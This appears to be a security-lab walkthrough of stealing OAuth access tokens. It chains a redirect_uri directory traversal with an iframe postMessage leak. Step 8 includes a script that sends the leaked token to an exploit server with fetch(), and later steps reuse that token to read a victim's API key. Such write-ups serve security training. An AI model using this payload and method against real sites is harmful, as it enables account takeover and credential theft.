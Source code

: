 ## background  
- OAuth service  
- Flawed validation  
- Leak access tokens  
- Admin stays active session with OAuth  
- Admin opens anything sent from the exploit server  
- Credentials: wiener:peter  

## Technique  
> **addEventListener()**  
> It is a method to register an event listener.  
> 
> Syntax:  
> - addEventListener(type, listener);  
> - addEventListener(type, listener, options);  
> options specifies characteristics about the event listener. It could be:  
> -- capture  
> -- once  
> -- passive  
> -- signal  
> 
> - addEventListener(type, listener, useCapture);  
> useCapture indicates whether events of this type will be dispatched to the registered listener before being dispatched to any EventTarget beneath it in the DOM tree.

## Steps  
1. Log in with social media credentials and log out. Log in again and notice you dont need to enter the credentials to log in.  

2. Find the GET /auth?client_id=[...] record in Burp HTTP history. Send it to Repeater.  
![image](https://user-images.githubusercontent.com/106157137/177326584-518ec9a8-515d-4d25-adc2-dd02122e83f0.png)  

3. Change the redirect_uri to external domain and receive a 400 Bad Request.  
![image](https://user-images.githubusercontent.com/106157137/177327077-93bf7bfe-0371-420e-8ad2-aed013a1afe5.png)  

4. Change the redirect_uri to take a directory traversal and receive a 302 Found. Now we know the website is vulnerable to directory traversal.  
![image](https://user-images.githubusercontent.com/106157137/177327457-d31410ba-f6b8-4fb1-abb3-813ca9397f62.png)  

5. View page source in browser, notice that the comment form is included as an iframe on each blog post.  
![image](https://user-images.githubusercontent.com/106157137/177328278-0ce461fe-fd44-42b9-b9e7-019cc7a99cc8.png)  
![image](https://user-images.githubusercontent.com/106157137/177328422-83483b5c-e9a3-4c29-99c9-4aebd1085e99.png)  

6. In burp, look through the response of GET /post/comment/comment-form, and notice that it uses the **postMessage()** method to send the **window.location.href** property to its parent window. '* 'means it allows messages to be posted to any origin.  
![image](https://user-images.githubusercontent.com/106157137/177328613-80d0eb3f-fa04-4820-8499-891b49237986.png)

7. Copy the url of GET /auth?client_id=[...] and paste it as the <iframe> source. Modify the redirect_uri to take a directory traversal.  
![image](https://user-images.githubusercontent.com/106157137/177329537-03a64c23-0325-4220-a1d2-ab719bc2f28c.png)  
![image](https://user-images.githubusercontent.com/106157137/177330147-d15ec981-bbeb-4f02-a7ae-6505c9cf28d3.png)  

8. Add a suitable <script> below <iframe> that will listen for web messages and output the contents somewhere. For example, the following script can be used to reveal the web message in the exploit server's access log:  
```
  <script>  
    window.addEventListener('message', function(e) {  
        fetch("/" + encodeURIComponent(e.data.data))  
    }, false)  
  </script>  
```  
  
9. Check if we have the useful payload by viewing the exploit and go through the access log. Find the record with a token.  
![image](https://user-images.githubusercontent.com/106157137/177331264-15cac762-cab3-438c-a3a0-c120c17ece3b.png)  

10. Delivery it to victim, and check the access log agin. Find the record with a token.  
![image](https://user-images.githubusercontent.com/106157137/177331531-53686735-80fa-443d-a666-9a275258ae77.png)  

11. In GET /me, replace the authorisation with the token. And we got a 200 response with the apikey.  
![image](https://user-images.githubusercontent.com/106157137/177331935-7a2896b6-5e93-4f67-9b7e-83dad2f23506.png)  
